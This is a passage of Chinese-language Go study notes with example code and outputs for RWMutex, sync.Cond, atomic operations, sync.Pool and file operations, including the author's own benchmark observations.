    configs map[string]string
}

func NewConfigManager() *ConfigManager {
    return &ConfigManager{
        configs: make(map[string]string),
    }
}

// 写操作 - 需要独占锁
func (cm *ConfigManager) UpdateConfig(key, value string) {
    cm.rw.Lock()         // 写锁
    defer cm.rw.Unlock()
    cm.configs[key] = value
    fmt.Printf("更新配置: %s = %s\n", key, value)
}

// 读操作 - 共享锁（允许多个读并发）
func (cm *ConfigManager) GetConfig(key string) (string, bool) {
    cm.rw.RLock()        // 读锁
    defer cm.rw.RUnlock()
    value, exists := cm.configs[key]
    if exists {
        fmt.Printf("读取配置: %s = %s\n", key, value)
    }
    return value, exists
}

// 批量读操作
func (cm *ConfigManager) GetAllConfigs() map[string]string {
    cm.rw.RLock()
    defer cm.rw.RUnlock()
    
    // 创建副本返回，避免外部修改内部数据
    result := make(map[string]string)
    for k, v := range cm.configs {
        result[k] = v
    }
    return result
}

func rwMutexExample() {
    fmt.Println("\n=== RWMutex 读写锁示例 ===")
    
    cm := NewConfigManager()
    var wg sync.WaitGroup
    
    // 初始化配置
    cm.UpdateConfig("database.url", "localhost:3306")
    cm.UpdateConfig("cache.size", "100MB")
    
    // 启动多个读goroutine
    for i := 0; i < 5; i++ {
        wg.Add(1)
        go func(readerID int) {
            defer wg.Done()
            for j := 0; j < 3; j++ {
                cm.GetConfig("database.url")
                time.Sleep(100 * time.Millisecond)
            }
        }(i)
    }
    
    // 启动写goroutine（较少）
    wg.Add(1)
    go func() {
        defer wg.Done()
        time.Sleep(200 * time.Millisecond)
        cm.UpdateConfig("database.url", "newhost:3306")
    }()
    
    wg.Wait()
    fmt.Println("所有操作完成")
}
```


##### 性能对比：Mutex vs RWMutex


```go
func benchmarkMutexVsRWMutex() {
    fmt.Println("\n=== Mutex vs RWMutex 性能对比 ===")
    
    const (
        readers    = 1000
        writers    = 2
        operations = 1000
    )
    
    // 测试Mutex
    var mutex sync.Mutex
    var mutexCounter int
    mutexWg := sync.WaitGroup{}
    
    start := time.Now()
    for i := 0; i < readers; i++ {
        mutexWg.Add(1)
        go func() {
            defer mutexWg.Done()
            for j := 0; j < operations; j++ {
                mutex.Lock()
                _ = mutexCounter // 读操作
                mutex.Unlock()
            }
        }()
    }
    for i := 0; i < writers; i++ {
        mutexWg.Add(1)
        go func() {
            defer mutexWg.Done()
            for j := 0; j < operations; j++ {
                mutex.Lock()
                mutexCounter++ // 写操作
                mutex.Unlock()
            }
        }()
    }
    mutexWg.Wait()
    mutexTime := time.Since(start)
    
    // 测试RWMutex
    var rwMutex sync.RWMutex
    var rwCounter int
    rwWg := sync.WaitGroup{}
    
    start = time.Now()
    for i := 0; i < readers; i++ {
        rwWg.Add(1)
        go func() {
            defer rwWg.Done()
            for j := 0; j < operations; j++ {
                rwMutex.RLock()
                _ = rwCounter // 读操作
                rwMutex.RUnlock()
            }
        }()
    }
    for i := 0; i < writers; i++ {
        rwWg.Add(1)
        go func() {
            defer rwWg.Done()
            for j := 0; j < operations; j++ {
                rwMutex.Lock()
                rwCounter++ // 写操作
                rwMutex.Unlock()
            }
        }()
    }
    rwWg.Wait()
    rwTime := time.Since(start)
    
    fmt.Printf("Mutex 耗时: %v\n", mutexTime)
    fmt.Printf("RWMutex 耗时: %v\n", rwTime)
    fmt.Printf("性能提升: %.2f%%\n", 
        float64(mutexTime-rwTime)/float64(mutexTime)*100)
}

// 读多写少的场景用WRMutex性能会提升 10000read时

=== Mutex vs RWMutex 性能对比 ===
Mutex 耗时: 91.00793ms
RWMutex 耗时: 61.467098ms
性能提升: 32.46%

// 10 read 时

=== Mutex vs RWMutex 性能对比 ===
Mutex 耗时: 769.424µs
RWMutex 耗时: 1.551421ms
性能提升: -101.63%

```


#### 3. sync.Cond - 条件变量

应用场景是什么？

**`sync.Cond`（条件变量）用于在多个goroutine之间进行复杂的同步和通信，特别是当一个goroutine需要等待特定条件满足时。**


##### 3.1 生产者-消费者模式

```go
type MessageQueue struct {
    messages []string
    mu       sync.Mutex
    cond     *sync.Cond
    closed   bool
}

func NewMessageQueue() *MessageQueue {
    mq := &MessageQueue{}
    mq.cond = sync.NewCond(&mq.mu)
    return mq
}

func (mq *MessageQueue) Send(message string) {
    mq.mu.Lock()
    defer mq.mu.Unlock()
    
    if mq.closed {
        return
    }
    
    mq.messages = append(mq.messages, message)
    fmt.Printf("发送消息: %s\n", message)
    mq.cond.Signal() // 通知一个等待的消费者
    // mq.cond.Broadcast() // 通知所有等待的消费者
}

func (mq *MessageQueue) Receive() (string, bool) {
    mq.mu.Lock()
    defer mq.mu.Unlock()
    
    // 等待条件满足（有消息或队列关闭）
    for len(mq.messages) == 0 && !mq.closed {
        mq.cond.Wait() // 解锁并等待，被唤醒后重新加锁
    }
    
    if len(mq.messages) == 0 && mq.closed {
        return "", false
    }
    
    message := mq.messages[0]
    mq.messages = mq.messages[1:]
    fmt.Printf("接收消息: %s\n", message)
    return message, true
}

func (mq *MessageQueue) Close() {
    mq.mu.Lock()
    defer mq.mu.Unlock()
    mq.closed = true
    mq.cond.Broadcast() // 通知所有等待的消费者
}

func condProducerConsumer() {
    fmt.Println("\n=== Cond 生产者-消费者模式 ===")
    
    mq := NewMessageQueue()
    var wg sync.WaitGroup
    
    // 启动消费者
    for i := 0; i < 3; i++ {
        wg.Add(1)
        go func(consumerID int) {
            defer wg.Done()
            for j := 0; j < 2; j++ {
                if msg, ok := mq.Receive(); ok {
                    fmt.Printf("消费者%d处理: %s\n", consumerID, msg)
                } else {
                    fmt.Printf("消费者%d: 队列已关闭\n", consumerID)
                    return
                }
            }
        }(i)
    }
    
    // 生产者发送消息
    time.Sleep(100 * time.Millisecond) // 确保消费者先等待
    for i := 0; i < 6; i++ {
        mq.Send(fmt.Sprintf("消息%d", i))
        time.Sleep(50 * time.Millisecond)
    }
    
    // 关闭队列并等待消费者完成
    time.Sleep(100 * time.Millisecond)
    mq.Close()
    wg.Wait()
    fmt.Println("生产者-消费者模式完成")
}


```

==》

```

=== Cond 生产者-消费者模式 ===
发送消息: 消息0
接收消息: 消息0
消费者2处理: 消息0
发送消息: 消息1
接收消息: 消息1
消费者0处理: 消息1
发送消息: 消息2
接收消息: 消息2
消费者1处理: 消息2
发送消息: 消息3
接收消息: 消息3
消费者2处理: 消息3
发送消息: 消息4
接收消息: 消息4
消费者0处理: 消息4
发送消息: 消息5
接收消息: 消息5
消费者1处理: 消息5
生产者-消费者模式完成
```


##### 3.2 工作池模式

```go
type WorkerPool struct {
    jobs    chan func()
    cond    *sync.Cond
    working int
    maxWorkers int
}

func NewWorkerPool(maxWorkers int) *WorkerPool {
    wp := &WorkerPool{
        jobs:       make(chan func(), 100),
        maxWorkers: maxWorkers,
    }
    wp.cond = sync.NewCond(&sync.Mutex{})
    return wp
}

func (wp *WorkerPool) Submit(task func()) {
    wp.cond.L.Lock()
    
    // 如果工作线程数不足，创建新worker
    if wp.working < wp.maxWorkers {
        wp.working++
        go wp.worker()
    }
    
    wp.cond.L.Unlock()
    wp.jobs <- task
}

func (wp *WorkerPool) worker() {
    for task := range wp.jobs {
        task() // 执行任务
        
        wp.cond.L.Lock()
        // 如果没有任务，考虑退出
        if len(wp.jobs) == 0 {
            wp.working--
            wp.cond.L.Unlock()
            break
        }
        wp.cond.L.Unlock()
    }
}

func condWorkerPool() {
    fmt.Println("\n=== Cond 工作池模式 ===")
    
    pool := NewWorkerPool(3)
    var wg sync.WaitGroup
    
    // 提交任务
    for i := 0; i < 10; i++ {
        wg.Add(1)
        taskID := i
        pool.Submit(func() {
            defer wg.Done()
            fmt.Printf("执行任务 %d\n", taskID)
            time.Sleep(100 * time.Millisecond)
        })
    }
    
    wg.Wait()
    fmt.Println("所有任务完成")
}
```

==》

```

=== Cond 工作池模式 ===
执行任务 0
执行任务 1
执行任务 2
执行任务 3
执行任务 4
执行任务 5
执行任务 6
执行任务 7
执行任务 8
执行任务 9
所有任务完成
```

#### 4. sync/atomic - 原子操作

##### 4.1 基本原子操作

```go
import "sync/atomic"

func atomicBasic() {
    fmt.Println("=== atomic 原子操作 ===")
    
    var counter int32
    var wg sync.WaitGroup
    
    // 原子增加
    for i := 0; i < 100; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            atomic.AddInt32(&counter, 1)
        }()
    }
    
    wg.Wait()
    fmt.Printf("原子计数结果: %d\n", atomic.LoadInt32(&counter))
    
    // 比较并交换 (CAS)
    var value int32 = 100
    swapped := atomic.CompareAndSwapInt32(&value, 100, 200)
    fmt.Printf("CAS操作: 旧值100→新值200, 成功: %t, 当前值: %d\n", 
        swapped, atomic.LoadInt32(&value))
    
    swapped = atomic.CompareAndSwapInt32(&value, 100, 300)
    fmt.Printf("CAS操作: 旧值100→新值300, 成功: %t, 当前值: %d\n", 
        swapped, atomic.LoadInt32(&value))
}
```

==>

```
=== atomic 原子操作 ===
原子计数结果: 100
CAS操作: 旧值100→新值200, 成功: true, 当前值: 200
CAS操作: 旧值100→新值300, 成功: false, 当前值: 200
```


##### 4.2 无锁数据结构

```go
// 无锁计数器
type LockFreeCounter struct {
    value int64
}

func (c *LockFreeCounter) Increment() int64 {
    return atomic.AddInt64(&c.value, 1)
}

func (c *LockFreeCounter) Get() int64 {
    return atomic.LoadInt64(&c.value)
}

// 无锁栈
type LockFreeStack struct {
    top unsafe.Pointer // *node
}

type node struct {
    value interface{}
    next  unsafe.Pointer
}

func (s *LockFreeStack) Push(value interface{}) {
    newTop := &node{value: value}
    for {
        oldTop := atomic.LoadPointer(&s.top)
        newTop.next = oldTop
        if atomic.CompareAndSwapPointer(&s.top, oldTop, unsafe.Pointer(newTop)) {
            return
        }
    }
}

func (s *LockFreeStack) Pop() interface{} {
    for {
        oldTop := atomic.LoadPointer(&s.top)
        if oldTop == nil {
            return nil
        }
        topNode := (*node)(oldTop)
        newTop := atomic.LoadPointer(&topNode.next)
        if atomic.CompareAndSwapPointer(&s.top, oldTop, newTop) {
            return topNode.value
        }
    }
}

func atomicLockFree() {
    fmt.Println("\n=== atomic 无锁数据结构 ===")
    
    // 无锁计数器测试
    lfCounter := &LockFreeCounter{}
    var wg sync.WaitGroup
    
    for i := 0; i < 100; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            lfCounter.Increment()
        }()
    }
    
    wg.Wait()
    fmt.Printf("无锁计数器结果: %d\n", lfCounter.Get())
}

==>

=== atomic 无锁数据结构 ===
无锁计数器结果: 100
```


### **对象池**

> sync.Pool，性能优化原理

sync.Pool 的核心优势：

1. **减少内存分配**：对象复用，降低GC压力
2. **提高性能**：减少系统调用和内存分配开销
3. **自动管理**：GC时自动清理，避免内存泄漏

使用场景：

- 创建成本高的对象（如缓冲区、连接等）
- 频繁创建销毁的临时对象
- 需要控制内存分配的应用

最佳实践：

1. **总是重置对象**：Put前清理对象状态
2. **类型断言安全**：Get后进行类型断言
3. **不要假设对象状态**：Get后总是初始化
4. **合理使用New函数**：提供默认创建逻辑

#### 1. sync.Pool 基本概念

##### 1.1 什么是 sync.Pool

```go
package main

import (
    "fmt"
    "sync"
    "time"
)

func poolBasic() {
    fmt.Println("=== sync.Pool 基本用法 ===")
    
    // 创建对象池
    var pool = sync.Pool{
        New: func() interface{} {
            fmt.Println("创建新对象")
            return &Buffer{data: make([]byte, 0, 1024)}
        },
    }
    
    // 获取对象（从池中或新建）
    buf := pool.Get().(*Buffer)
    buf.WriteString("Hello, Pool!")
    fmt.Printf("缓冲区内容: %s\n", buf.String())
    
    // 放回池中
    pool.Put(buf)
    
    // 再次获取（可能重用同一个对象）
    buf2 := pool.Get().(*Buffer)
    fmt.Printf("重用对象长度: %d\n", buf2.Len()) // 注意：对象可能被重置
    
    pool.Put(buf2)
}

type Buffer struct {
    data []byte
}

func (b *Buffer) WriteString(s string) {
    b.data = append(b.data, s...)
}

func (b *Buffer) String() string {
    return string(b.data)
}

func (b *Buffer) Len() int {
    return len(b.data)
}

func (b *Buffer) Reset() {
    b.data = b.data[:0]
}
```

==>

```
=== sync.Pool 基本用法 ===
创建新对象
缓冲区内容: Hello, Pool!
重用对象长度: 12
```


#### 2. sync.Pool 内部原理

##### 2.1 两级缓存架构

```go
// sync.Pool 内部结构（简化）
type Pool struct {
    local     unsafe.Pointer // 每个P的本地池 [P]poolLocal
    localSize uintptr       // local数组大小
    
    New func() interface{}  // 创建新对象的函数
}

type poolLocal struct {
    private interface{}   // 每个P的私有对象（无锁访问）
    shared  []interface{}  // 共享队列（需要锁）
    pad     [128]byte     // 缓存行填充，避免false sharing
}
```


##### 2.2 获取对象流程（Get）

```go
func poolGetWorkflow() {
    fmt.Println("\n=== Get() 工作流程 ===")
    
    pool := &sync.Pool{
        New: func() interface{} {
            return "新创建的对象"
        },
    }
    
    // Get() 操作步骤：
    // 1. 获取当前P的poolLocal
    // 2. 检查private字段（快速路径）
    // 3. 如果private为空，从shared队列获取
    // 4. 如果本地没有，从其他P偷取
    // 5. 如果都失败，调用New()创建新对象
    
    obj := pool.Get()
    fmt.Printf("获取的对象: %v\n", obj)
    pool.Put(obj)
}
```


##### 2.3 放入对象流程（Put）

```go
func poolPutWorkflow() {
    fmt.Println("\n=== Put() 工作流程 ===")
    
    pool := &sync.Pool{}
    
    // Put() 操作步骤：
    // 1. 获取当前P的poolLocal
    // 2. 如果private为空，放入private（无锁）
    // 3. 否则放入shared队列（需要锁）
    
    obj := "要缓存的对象"
    pool.Put(obj)
    fmt.Println("对象已放入池中")
    
    // 验证对象被缓存
    retrieved := pool.Get()
    fmt.Printf("取出的对象: %v\n", retrieved)
}
```

#### 3. 性能优化原理

##### 3.1 减少GC压力

```go
func poolReduceGCPressure() {
    fmt.Println("\n=== 减少GC压力演示 ===")
    
    // 不使用Pool：频繁分配，GC压力大
    withoutPool := func() {
        start := time.Now()
        var totalAllocs int
        for i := 0; i < 1000000; i++ {
            // 每次循环都创建新对象
            buf := make([]byte, 0, 1024)
            buf = append(buf, "data"...)
            totalAllocs++
        }
        fmt.Printf("无Pool: 分配次数=%d, 耗时=%v\n", 
            totalAllocs, time.Since(start))
    }
    
    // 使用Pool：对象复用，减少分配
    withPool := func() {
        pool := &sync.Pool{
            New: func() interface{} {
                return make([]byte, 0, 1024)
            },
        }
        
        start := time.Now()
        var totalAllocs int
        for i := 0; i < 1000000; i++ {
            // 从池中获取对象
            buf := pool.Get().([]byte)
            buf = buf[:0] // 重置切片
            buf = append(buf, "data"...)
            pool.Put(buf)
            totalAllocs++
        }
        fmt.Printf("有Pool: 分配次数=%d, 耗时=%v\n", 
            totalAllocs, time.Since(start))
    }
    
    withoutPool()
    withPool()
}
```

==》好像有pool反而耗时高

```

=== 减少GC压力演示 ===
无Pool: 分配次数=1000000, 耗时=26.771527ms
有Pool: 分配次数=1000000, 耗时=131.518735ms
```


##### 3.2 避免内存分配模式

```go
type ExpensiveObject struct {
    data [4096]byte // 4KB大对象
    id   int
}

func poolMemoryAllocation() {
    fmt.Println("\n=== 内存分配优化 ===")
    
    var objectPool = sync.Pool{
        New: func() interface{} {
            fmt.Println("分配新的ExpensiveObject")
            return &ExpensiveObject{}
        },
    }
    
    // 模拟高频率对象使用
    for i := 0; i < 10; i++ {
        obj := objectPool.Get().(*ExpensiveObject)
        obj.id = i
        fmt.Printf("使用对象 ID=%d\n", obj.id)
        objectPool.Put(obj) // 放回池中重用
    }
    
    fmt.Println("对象被重用，减少了内存分配次数")
}
```


#### 4. 实际应用场景

##### 4.1 字节缓冲区池（最常见用法）

```go
// 全局字节缓冲区池
var bufferPool = sync.Pool{
    New: func() interface{} {
        return bytes.NewBuffer(make([]byte, 0, 4096))
    },
}

func GetBuffer() *bytes.Buffer {
    return bufferPool.Get().(*bytes.Buffer)
}

func PutBuffer(buf *bytes.Buffer) {
    buf.Reset() // 重要：重置缓冲区
    bufferPool.Put(buf)
}

func bufferPoolExample() {
    fmt.Println("\n=== 字节缓冲区池示例 ===")
    
    // 使用池化的缓冲区
    buf := GetBuffer()
    defer PutBuffer(buf) // 使用defer确保放回
    
    buf.WriteString("Hello, ")
    buf.WriteString("World!")
    fmt.Println("缓冲区内容:", buf.String())
}
```

##### 4.2 HTTP 请求处理中的对象池

```go
type RequestContext struct {
    RequestID string
    UserAgent string
    StartTime time.Time
    // 其他请求相关数据...
}

var requestContextPool = sync.Pool{
    New: func() interface{} {
        return &RequestContext{}
    },
}

func acquireRequestContext() *RequestContext {
    ctx := requestContextPool.Get().(*RequestContext)
    ctx.StartTime = time.Now()
    return ctx
}

func releaseRequestContext(ctx *RequestContext) {
    // 重置对象状态
    ctx.RequestID = ""
    ctx.UserAgent = ""
    ctx.StartTime = time.Time{}
    requestContextPool.Put(ctx)
}

func httpHandlerExample() {
    fmt.Println("\n=== HTTP 请求处理示例 ===")
    
    // 模拟HTTP请求处理
    for i := 0; i < 5; i++ {
        ctx := acquireRequestContext()
        ctx.RequestID = fmt.Sprintf("req-%d", i)
        ctx.UserAgent = "Go-Client/1.0"
        
        fmt.Printf("处理请求: %s\n", ctx.RequestID)
        
        // 模拟处理完成
        time.Sleep(100 * time.Millisecond)
        releaseRequestContext(ctx)
    }
}
```

##### 4.3 数据库连接包装器

```go
type DBConnectionWrapper struct {
    conn      *sql.DB
    inUse     bool
    lastUsed  time.Time
}

var dbWrapperPool = sync.Pool{
    New: func() interface{} {
        fmt.Println("创建新的数据库连接包装器")
        // 这里应该是真实的数据库连接
        return &DBConnectionWrapper{
            inUse:    false,
            lastUsed: time.Now(),
        }
    },
}

func poolDatabaseConnections() {
    fmt.Println("\n=== 数据库连接池示例 ===")
    
    // 获取连接包装器
    wrapper := dbWrapperPool.Get().(*DBConnectionWrapper)
    wrapper.inUse = true
    wrapper.lastUsed = time.Now()
    
    fmt.Println("使用数据库连接执行查询...")
    
    // 模拟数据库操作
    time.Sleep(200 * time.Millisecond)
    
    // 放回池中
    wrapper.inUse = false
    dbWrapperPool.Put(wrapper)
    fmt.Println("数据库连接已放回池中")
}
```


### **文件**

> os.File，各类文件操作 os.OpenFile/os.Create

核心函数对比：

| 函数            | 用途             | 特点                       |
| :-------------- | :--------------- | :------------------------- |
| **os.Open**     | 只读打开现有文件 | 简单，文件必须存在         |
| **os.Create**   | 创建新文件       | 自动清空，文件不存在则创建 |
| **os.OpenFile** | 灵活的文件操作   | 支持各种模式组合，功能最全 |

最佳实践：

1. **总是使用defer关闭文件**
2. **检查所有错误返回值**
3. **大文件使用缓冲读写**
4. **重要数据调用Sync()确保落盘**
5. **使用原子操作避免数据损坏**


#### 1. 文件操作基础

##### 1.1 文件打开模式

```go
package main

import (
    "fmt"
    "os"
)

func fileModes() {
    fmt.Println("=== 文件打开模式 ===")
    
    modes := []struct {
        flag int
        desc string
    }{
        {os.O_RDONLY, "只读"},
        {os.O_WRONLY, "只写"},
        {os.O_RDWR, "读写"},
        {os.O_CREATE, "不存在则创建"},
        {os.O_EXCL, "必须创建新文件"},
        {os.O_TRUNC, "打开时清空文件"},
        {os.O_APPEND, "追加模式"},
    }
    
    for _, m := range modes {
        fmt.Printf("0x%04X: %s\n", m.flag, m.desc)
    }
    
    // 常用组合模式
    combinations := []struct {
        flags int
        desc  string
    }{
        {os.O_RDONLY, "只读打开现有文件"},
        {os.O_WRONLY | os.O_CREATE | os.O_TRUNC, "只写创建新文件（清空）"},
        {os.O_WRONLY | os.O_CREATE | os.O_APPEND, "追加模式写入"},
        {os.O_RDWR | os.O_CREATE, "读写打开，不存在则创建"},
    }
    
    fmt.Println("\n常用组合模式:")
    for _, c := range combinations {
        fmt.Printf("0x%04X: %s\n", c.flags, c.desc)
    }
}

==》
=== 文件打开模式 ===
0x0000: 只读
0x0001: 只写
0x0002: 读写
0x0040: 不存在则创建
0x0080: 必须创建新文件
0x0200: 打开时清空文件
0x0400: 追加模式

常用组合模式:
0x0000: 只读打开现有文件
0x0241: 只写创建新文件（清空）
0x0441: 追加模式写入
0x0042: 读写打开，不存在则创建

```

#### 2. 文件打开和创建

##### 2.1 os.Open - 只读打开

```go
func openReadOnly() {
    fmt.Println("\n=== os.Open 只读模式 ===")
    
    file, err := os.Open("test.txt")
    if err != nil {
        fmt.Printf("打开文件失败: %v\n", err)
        return
    }
    defer file.Close() // 重要：确保文件关闭
    
    // 读取文件信息
    fileInfo, err := file.Stat()
    if err != nil {
        fmt.Printf("获取文件信息失败: %v\n", err)
        return
    }
    
    fmt.Printf("文件名: %s\n", fileInfo.Name())
    fmt.Printf("文件大小: %d 字节\n", fileInfo.Size())
    fmt.Printf("修改时间: %v\n", fileInfo.ModTime())
    
    // 读取文件内容
    buffer := make([]byte, 1024)
    n, err := file.Read(buffer)
    if err != nil {
        fmt.Printf("读取文件失败: %v\n", err)
        return
    }
    
    fmt.Printf("读取内容: %s\n", string(buffer[:n]))
}
```

##### 2.2 os.Create - 创建新文件

```go
func createNewFile() {
    fmt.Println("\n=== os.Create 创建文件 ===")
    
    file, err := os.Create("newfile.txt")
    if err != nil {
        fmt.Printf("创建文件失败: %v\n", err)
        return
    }
    defer file.Close()
    
    // 写入内容
    content := "Hello, Go File Operations!\n这是新创建的文件内容。"
    n, err := file.WriteString(content)
    if err != nil {
        fmt.Printf("写入文件失败: %v\n", err)
        return
    }
    
    fmt.Printf("成功写入 %d 字节\n", n)
    
    // 确保数据写入磁盘
    err = file.Sync()
    if err != nil {
        fmt.Printf("同步到磁盘失败: %v\n", err)
    }
}
```

##### 2.3 os.OpenFile - 灵活的文件操作

```go
func openFileAdvanced() {
    fmt.Println("\n=== os.OpenFile 高级用法 ===")
    
    // 场景1：追加模式写入日志
    file, err := os.OpenFile("app.log", os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        fmt.Printf("打开日志文件失败: %v\n", err)
        return
    }
    defer file.Close()
    
    logEntry := fmt.Sprintf("[%s] 应用程序启动\n", time.Now().Format("2006-01-02 15:04:05"))
    _, err = file.WriteString(logEntry)
    if err != nil {
        fmt.Printf("写入日志失败: %v\n", err)
    }
    
    fmt.Println("日志写入成功")
}
```


#### 3. 文件读写操作

##### 3.1 读取文件的不同方式

```go
func readFileMethods() {
    fmt.Println("\n=== 文件读取方法 ===")
    
    // 方法1：一次性读取整个文件（小文件适用）
    content, err := os.ReadFile("test.txt")
    if err != nil {
        fmt.Printf("读取文件失败: %v\n", err)
        // 创建测试文件
        os.WriteFile("test.txt", []byte("这是测试文件内容\n第二行内容"), 0644)
        content, _ = os.ReadFile("test.txt")
    }
    fmt.Printf("一次性读取: %s\n", string(content))
    
    // 方法2：使用bufio逐行读取（大文件适用）
    file, err := os.Open("test.txt")
    if err != nil {
        fmt.Printf("打开文件失败: %v\n", err)
        return
    }
    defer file.Close()
    
    scanner := bufio.NewScanner(file)
    lineNumber := 1
    for scanner.Scan() {
        fmt.Printf("第%d行: %s\n", lineNumber, scanner.Text())
        lineNumber++
    }
    
    if err := scanner.Err(); err != nil {
        fmt.Printf("读取错误: %v\n", err)
    }
    
    // 方法3：使用缓冲区读取（按字节读取）
    file2, err := os.Open("test.txt")
    if err != nil {
        fmt.Printf("打开文件失败: %v\n", err)
        return
    }
    defer file2.Close()
    
    reader := bufio.NewReader(file2)
    buffer := make([]byte, 16) // 16字节缓冲区
    
    for {
        n, err := reader.Read(buffer) //n返回读取的字节数
        if err != nil {
            if err == io.EOF {
                break
            }
            fmt.Printf("读取错误: %v\n", err)
            break
        }
        fmt.Printf("读取 %d 字节: %s\n", n, string(buffer[:n]))
    }
}
```

##### 3.2 写入文件的不同方式

```go
func writeFileMethods() {
    fmt.Println("\n=== 文件写入方法 ===")
    
    // 方法1：一次性写入
    data := []byte("一次性写入的内容\n")
    err := os.WriteFile("write_test.txt", data, 0644)
    if err != nil {
        fmt.Printf("写入文件失败: %v\n", err)
    }
    
    // 方法2：使用File.Write
    file, err := os.Create("write_method2.txt")
    if err != nil {
        fmt.Printf("创建文件失败: %v\n", err)
        return
    }
    defer file.Close()
    
    content := "使用File.Write方法写入\n"
    n, err := file.Write([]byte(content))
    if err != nil {
        fmt.Printf("写入失败: %v\n", err)
    }
    fmt.Printf("写入 %d 字节\n", n)
    
    // 方法3：使用bufio.Writer（缓冲写入，性能好）
    file2, err := os.Create("buffered_write.txt")
    if err != nil {
        fmt.Printf("创建文件失败: %v\n", err)
        return
    }
    defer file2.Close()
    
    writer := bufio.NewWriter(file2)
    lines := []string{"第一行内容", "第二行内容", "第三行内容"}
    
    for _, line := range lines {
        _, err := writer.WriteString(line + "\n")
        if err != nil {
            fmt.Printf("写入失败: %v\n", err)
            break
        }
    }
    
    // 重要：刷新缓冲区
    err = writer.Flush()
    if err != nil {
        fmt.Printf("刷新缓冲区失败: %v\n", err)
    }
    fmt.Println("缓冲写入完成")
}
```

#### 4. 文件操作实践

##### 4.1 文件复制功能

```go
func copyFile() {
    fmt.Println("\n=== 文件复制 ===")
    
    // 源文件
    srcFile, err := os.Open("test.txt")
    if err != nil {
        fmt.Printf("打开源文件失败: %v\n", err)
        return
    }
    defer srcFile.Close()
    
    // 目标文件
    dstFile, err := os.Create("test_copy.txt")
    if err != nil {
        fmt.Printf("创建目标文件失败: %v\n", err)
        return
    }
    defer dstFile.Close()
    
    // 使用io.Copy进行复制，需要先打开源文件和目标文件，再进行复制
    bytesCopied, err := io.Copy(dstFile, srcFile)
    if err != nil {
        fmt.Printf("复制文件失败: %v\n", err)
        return
    }
    
    fmt.Printf("成功复制 %d 字节\n", bytesCopied)
    
    // 验证复制结果
    srcInfo, _ := srcFile.Stat()
    dstInfo, _ := dstFile.Stat()
    fmt.Printf("源文件大小: %d, 目标文件大小: %d\n", 
        srcInfo.Size(), dstInfo.Size())
}
```


##### 4.2 文件信息获取

```go
func fileInfoOperations() {
    fmt.Println("\n=== 文件信息操作 ===")
    
    filename := "test.txt"
    
    // 检查文件是否存在
    if _, err := os.Stat(filename); os.IsNotExist(err) {
        fmt.Printf("文件 %s 不存在\n", filename)
        // 创建测试文件
        os.WriteFile(filename, []byte("测试文件内容"), 0644)
    }
    
    // 获取详细文件信息
    fileInfo, err := os.Stat(filename)
    if err != nil {
        fmt.Printf("获取文件信息失败: %v\n", err)
        return
    }
    
    fmt.Printf("文件名: %s\n", fileInfo.Name())
    fmt.Printf("大小: %d 字节\n", fileInfo.Size())
    fmt.Printf("权限: %s\n", fileInfo.Mode())
    fmt.Printf("修改时间: %v\n", fileInfo.ModTime())
    fmt.Printf("是否是目录: %t\n", fileInfo.IsDir())
    
    // 文件权限检查
    mode := fileInfo.Mode()
    fmt.Printf("\n权限详情:\n")
    fmt.Printf("可读: %t\n", mode&0400 != 0)
    fmt.Printf("可写: %t\n", mode&0200 != 0)
    fmt.Printf("可执行: %t\n", mode&0100 != 0)
}
```

##### 4.3 目录操作

```go
func directoryOperations() {
    fmt.Println("\n=== 目录操作 ===")
    
    // 创建目录
    dirName := "test_dir"
    err := os.Mkdir(dirName, 0755)
    if err != nil {
        fmt.Printf("创建目录失败: %v\n", err)
    } else {
        fmt.Printf("目录 %s 创建成功\n", dirName)
    }
    
    // 创建多级目录
    nestedDir := "parent/child/grandchild"
    err = os.MkdirAll(nestedDir, 0755)
    if err != nil {
        fmt.Printf("创建多级目录失败: %v\n", err)
    } else {
        fmt.Printf("多级目录创建成功\n")
    }
    
    // 读取目录内容
    entries, err := os.ReadDir(".")
    if err != nil {
        fmt.Printf("读取目录失败: %v\n", err)
        return
    }
    
    fmt.Println("\n当前目录内容:")
    for _, entry := range entries {
        info, _ := entry.Info()
        fileType := "文件"
        if entry.IsDir() {
            fileType = "目录"
        }
        fmt.Printf("%s [%s] %d字节\n", 
            entry.Name(), fileType, info.Size())
    }
    
    // 清理测试目录
    os.RemoveAll("test_dir")
    os.RemoveAll("parent")
    fmt.Println("测试目录已清理")
}
```


#### 5. 高级文件操作

##### 5.1 文件锁定

```go
func fileLocking() {
    fmt.Println("\n=== 文件锁定 ===")
    
    file, err := os.OpenFile("locked_file.txt", 
        os.O_CREATE|os.O_RDWR, 0644)
    if err != nil {
        fmt.Printf("打开文件失败: %v\n", err)
        return
    }
    defer file.Close()
    
    // 尝试获取排他锁
    err = syscall.Flock(int(file.Fd()), syscall.LOCK_EX|syscall.LOCK_NB)
    if err != nil {
        fmt.Printf("获取文件锁失败: %v (可能已被其他进程锁定)\n", err)
        return
    }
    defer syscall.Flock(int(file.Fd()), syscall.LOCK_UN) // 释放锁
    
    fmt.Println("文件锁获取成功，开始写入...")
    file.WriteString("这是被锁定的文件内容\n")
    time.Sleep(2 * time.Second) // 模拟长时间操作
    fmt.Println("文件操作完成，释放锁")
}
```

##### 5.2 文件监控

```go
func fileMonitoring() {
    fmt.Println("\n=== 文件监控 ===")
    
    // 创建测试文件
    filename := "monitored_file.txt"
    os.WriteFile(filename, []byte("初始内容"), 0644)
    
    // 启动文件监控
    go func() {
        initialStat, _ := os.Stat(filename)
        for {
            stat, err := os.Stat(filename)
            if err != nil {
                fmt.Printf("监控文件出错: %v\n", err)
                return
            }
            
            // 检查文件是否被修改
            if stat.Size() != initialStat.Size() || 
               stat.ModTime() != initialStat.ModTime() {
                fmt.Printf("检测到文件变化: 大小=%d, 修改时间=%v\n", 
                    stat.Size(), stat.ModTime())
                initialStat = stat
            }
            
            time.Sleep(1 * time.Second)
        }
    }()
    
    // 模拟文件修改
    time.Sleep(2 * time.Second)
    os.WriteFile(filename, []byte("修改后的内容"), 0644)
    
    time.Sleep(2 * time.Second)
    os.Remove(filename)
    time.Sleep(1 * time.Second)
}
```

==》这就是监控日志文件变化推送日志到云日志服务器的思考。


#### 6. 错误处理和最佳实践

##### 6.1 健壮的文件操作

```go
func robustFileOperations() {
    fmt.Println("\n=== 健壮的文件操作 ===")
    
    // 带错误重试的文件打开
    func openFileWithRetry(filename string, maxRetries int) (*os.File, error) {
        var file *os.File
        var err error
        
